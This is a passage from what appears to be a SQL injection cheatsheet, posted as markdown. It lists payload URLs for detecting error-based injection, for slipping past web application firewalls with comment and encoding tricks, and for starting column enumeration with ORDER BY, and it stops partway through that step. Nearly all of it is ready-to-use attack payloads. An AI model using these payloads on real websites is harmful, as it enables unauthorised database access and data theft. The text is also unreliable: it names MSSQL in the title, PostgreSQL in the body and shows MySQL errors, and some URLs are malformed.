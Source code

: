 # MSSQL Error Based SQL Injection Cheatsheet
This is probably the easiest vulnerability along the SQL Injection attack. An attacker can enumerate and dump the PostgreSQL database by using the SQL error messages to his advantage.

## Detecting the vulnerability

```http://domain.com/index.php?id=1```  
Website loads successfully  

```http://domain.com/index.php?id=1'```   
Error message shows up: ```You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near...```  

```http://domain.com/index.php?id=1\'```   
Error message shows up: ```You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near...```  

```http://domain.com/index.php?id=2-1```  
Website loads successfully

```http://domain.com/index.php?id=-1'```  
Error message shows up again

```http://domain.com/index.php?id=-1)'```  
Error message shows up again

```http://domain.com/index.php?id=1'-- -```  
Website might loads successfuly, but it might shows error also

```http://domain.com/index.php?id=1'--```  
Website might loads successfuly, but it might shows error also

```http://domain.com/index.php?id=1+--+```  
Website might loads successfuly, but it might shows error also

## Bypassing WAF to detect the vulnerability (if the first methodology didn't work)

In some cases, WAF won't let you to cause errors on the website, so sending special queries might be needed to bypass WAF.

```http://domain.com/index.php?id=1'--/**/-```  
If no WAF Warning is shown and website loads up, we confirm the vulnerability, else try the following payloads.

```http//domain.com/index.php?id=/^.*1'--+-.*$/```  
```http//domain.com/index.php?id=/*!500001'--+-*/```  
```http//domain.com/index.php?id=1'--/**/-```  
```http//domain.com/index.php?id=1'--/*--*/-```  
```http//domain.com/index.php?id=1'--/*&a=*/-```  
```http//domain.com/index.php?id=1'--/*1337*/-```  
```http//domain.com/index.php?id=1'--/**_**/-```  
```http//domain.com/index.php?id=1'--%0A-```  
```http//domain.com/index.php?id=1'--%0b-```  
```http//domain.com/index.php?id=1'--%0d%0A-```  
```http//domain.com/index.php?id=1'--%23%0A-```  
```http//domain.com/index.php?id=1'--%23foo%0D%0A-```  
```http//domain.com/index.php?id=1'--%23foo*%2F*bar%0D%0A-```  
```http//domain.com/index.php?id=1'--#qa%0A#%0A-```  
```http//domain.com/index.php?id=/*!20000%0d%0a1'--+-*/```  
```http//domain.com/index.php?id=/*!blobblobblob%0d%0a1'--+-*/```  

## Find the number of columns using 'ORDER BY' query  

Now that we performed an SQL syntax error to the website, we can begin fuzzing and finding how many columns do we have by using ORDER BY

```http://domain.com/index.php?id=1' order by 1-- -```  
```